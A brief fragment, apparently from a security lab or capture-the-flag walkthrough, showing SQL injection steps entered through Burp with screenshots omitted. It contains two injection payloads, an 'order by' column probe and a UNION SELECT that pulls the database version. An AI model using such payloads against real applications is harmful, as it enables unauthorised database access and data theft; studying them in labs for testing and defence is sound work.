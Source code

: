 ```bash
' order by 2--+
```

![image.png](image%203.png)

**BURP COMMAND:**

```bash
' union select 1, @@version -- -
```

![image.png](image%204.png)

